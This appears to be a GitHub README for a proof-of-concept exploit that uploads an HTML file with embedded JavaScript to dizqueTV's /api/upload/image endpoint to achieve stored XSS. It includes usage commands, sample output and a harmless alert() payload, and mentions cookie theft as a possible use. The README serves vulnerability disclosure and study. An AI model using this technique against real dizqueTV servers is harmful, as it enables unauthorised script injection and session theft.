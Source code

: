 # dizqueTV File Upload to XSS Exploit

## Overview
This exploit targets a file upload vulnerability in **dizqueTV** versions 1.5.3-1.5.5. Due to insufficient sanitization in the file upload API, an attacker can upload arbitrary files, enabling potential **Cross-Site Scripting (XSS)** attacks. This exploit leverages the vulnerability to upload a crafted HTML file with embedded JavaScript.

**Exploit Author**: J3rich0123  
**Tested on**: Linux  
**Vendor**: [dizqueTV GitHub Repository](https://github.com/vexorian/dizquetv)  
**Version**: 1.5.3-1.5.5 (Required)  
**CVE**: N/A

## Vulnerable Component
The vulnerability resides in the file upload endpoint at `/api/upload/image`, which does not sanitize file contents or enforce strict file type restrictions. This allows the upload of files containing malicious code.

## Exploit Details
The exploit script creates and uploads an HTML file with a JavaScript-based XSS payload. Once uploaded, this payload can trigger on pages that render the file, potentially allowing the attacker to perform actions like cookie theft or redirection.

## Usage
### Prerequisites
- Python 3.x
- `requests` library

To install the required library:
```bash
pip install requests
```

Exploit Execution

Clone this repository.

Execute the exploit with the target URL as an argument:

```bash
python exploit.py <target_url>
```

Example usage:

```bash
python exploit.py http://localhost:8000/api/upload/image
```

Upon success, you’ll see confirmation messages indicating the file upload was successful.

Note: If the file renders in a browser with JavaScript enabled, the XSS alert will be triggered.

Example Output
plaintext

Reading malicious file: xss.html
Uploading malicious file: xss.html
Exploit successful! Attempted to upload: xss.html
Server response: (Server response message here)
PoC HTML Payload
The xss.html payload file created by this exploit contains:

html
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>XSS Payload</title>
    <script>alert("Hacked!!!");</script>
</head>
<body>
    <h1>Testing XSS Payload</h1>
    <p>If the alert shows, the XSS attack was successful!</p>
</body>
</html>
```
Remediation
This vulnerability has been reported to the vendor, and a patch will be released in the next version. The patch will address file type sanitization and restrictions.

Disclaimer
This exploit is intended for educational and ethical purposes only. Unauthorized use of this exploit may violate laws and regulations. Use it responsibly.

